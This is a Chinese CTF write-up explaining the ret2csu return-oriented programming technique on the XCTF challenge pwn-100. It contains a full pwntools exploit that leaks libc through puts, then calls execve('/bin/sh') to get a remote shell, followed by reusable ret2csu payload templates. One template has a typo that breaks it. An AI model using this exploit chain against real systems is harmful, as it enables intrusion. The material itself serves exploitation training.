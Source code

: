 ```yaml
---
layout: article
pageview: true
key: 2021-07-21-ret2csu
title: ret2csu学习笔记
author: Ch4rc0al
categories:
  - WriteUps
  - Notes
tags:
  - Pwn	
  - CTF
---
```




最近学习了中级Rop中的`ret2csu`技巧，记录一篇WP来巩固学习

新增了常用`ret2csu`脚本

<!--more-->

## pwn-100

[例题 pwn-100](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=1&id=4888&page=1)

>     Arch:     amd64-64-little
>     RELRO:    Partial RELRO
>     Stack:    No canary found
>     NX:       NX enabled
>     PIE:      No PIE (0x400000)

```c
int sub_40068E()
{
  char v1[64]; // [rsp+0h] [rbp-40h] BYREF

  sub_40063D((__int64)v1, 200);
  return puts("bye~");
}
```

此处有栈溢出漏洞，并且可以溢出很大

程序可以调用`puts`和`read`

思路：通过`ret2csu`调用`puts`获取`puts`函数的真实地址，通过`LibcSearcher`拿到基地址，调用`read`向bss段写入`execve`和`/bin/sh\x00`，调用`execve`拿到shell

```
from pwn import *
from LibcSearcher import LibcSearcher
context(os='linux',arch='amd64',log_level='debug')

sh=remote('111.200.241.244',53809)
#sh=process('./pwn100')
elf=ELF('./pwn100')
csu_end=0x40075A
csu_front=0x400740
puts_got=elf.got['puts']
read_got=elf.got['read']
main=0x40068e
bss_base=elf.bss();

def csu(rbx,rbp,r12,r13,r14,r15,last):
    payload='a'*0x40+'bbbbbbbb'
    payload+=p64(csu_end)+p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload+=p64(csu_front)+'a'*0x38+p64(last)
    sh.send(payload)
    sh.recvuntil('bye~\n')

csu(0,1,puts_got,0,0,puts_got,main)
puts_addr=u64(sh.recv()[:-1].ljust(0x8,'\x00'))


libc=LibcSearcher('puts',puts_addr)
libc_base=puts_addr-libc.dump('puts')

execve_addr = libc_base + libc.dump('execve')

csu(0,1,read_got,16,bss_base,0,main)

sh.send(p64(execve_addr)+'/bin/sh\x00')

csu(0,1,bss_base,0,0,bss_base+0x8,main)

sh.interactive()
```

## 常用ret2csu脚本

地址需要根据题目添加

### 2.31及以上版本
```python
def csu(call, rdi, rsi, rdx):
    csu_end = 
    csu_front = 
    payload = p64(csu_end)+p64(0)+p64(1)+p64(rdi)+p64(rsi) + \
        p64(rdx)+p64(call)+p64(csu_front)+b'\x00'*0x38
    return payload
```

### 2.31以下版本
```python
def csu(call, rdi, rsi, rdx):
    csu_end = 
    csu_front = 
    payload = p64(csu_end)+p64(0)+p64(1)+p64(call)+p64(rdx) + \
        +p64(rsi)+p64(rdi)+p64(csu_front)+'\x00'*0x38
    return payload
```

